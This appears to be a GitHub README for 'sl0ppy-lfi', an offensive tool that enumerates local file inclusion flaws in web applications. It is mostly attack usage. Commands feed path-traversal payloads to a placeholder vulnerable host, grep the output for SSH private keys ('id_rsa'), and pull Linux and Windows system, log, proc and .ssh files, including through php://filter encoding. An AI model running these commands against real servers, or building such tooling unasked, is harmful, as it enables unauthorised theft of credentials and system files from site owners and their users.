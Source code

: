 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encoding! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 


## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the pre-default implemented(read -p), and submit system user when asked for it.

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# Usage sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

# Usage sl0ppy-filter-enc-lfi
`./sl0ppy-filter-enc-lfi http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/x0/sl0ppy-lfi/sl0ppy-enc.txt`

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

# Usage 
* `./sl0ppy-lfi-fw` 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. (Temp not working in framework, looking to fix it on short notice)
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 1
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=
* or any other page, or lfi param

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 2
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=
* or any other page, or lfi param

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 3
* enter url when it ask for it like this http://server.vulnerable.com/index.php?page=
* or any other page, or lfi param

# !(sum issues in fw option 4 not working atm, working on fixing it...)
# Usage php://Filther-encoding` 
* `./sl0ppy-lfi-fw`
* * option 4 
* enter url when it ask for it like this http://server.vulnerable.com/index.php
